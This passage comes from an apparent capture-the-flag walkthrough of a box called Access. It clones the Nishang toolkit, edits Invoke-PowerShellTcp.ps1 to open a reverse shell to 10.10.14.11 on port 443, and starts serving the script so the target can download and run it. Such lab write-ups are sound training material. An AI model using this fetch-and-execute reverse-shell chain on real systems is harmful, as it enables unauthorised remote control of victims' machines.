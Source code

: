 First, I'll clone a copy of
[Nishang](https://github.com/samratashok/nishang) from github if I don't
already have it.



    root@kali:/opt# git clone https://github.com/samratashok/nishang.git
    Cloning into 'nishang'...
    remote: Enumerating objects: 1660, done.
    remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
    Receiving objects: 100% (1660/1660), 6.62 MiB | 776.00 KiB/s, done.
    Resolving deltas: 100% (1040/1040), done.



I'll make a `www` directory to serve from, and I'll grab a copy of the
shell I'm going to use:



    root@kali:/opt# mkdir ~/www
    root@kali:/opt# cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/



#### Prep Shell

If I open up the PowerShell script and look at the usage, I'll see that
I want to do a reverse shell, so something like this:



    .EXAMPLE
    PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444



I'm going to have the Access box `iex` this script. As it is by default,
that will just load all the functions in this script into the current
PowerShell session. But I want to actually run one of those function. So
I'll add that line to the bottom of the script:



    root@kali# tail Invoke-PowerShellTcp.ps1 
            }
        }
        catch
        {
            Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
            Write-Error $_
        }
    }

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443



#### Serve Shell

Now I need to serve the shell so that I can get it from Access. I'll use
the `http.server` module in `python3` (that's the same as the
`SimpleHTTPServer` module in `python2`, but I don't like having to hit
shift and it's fewer characters).
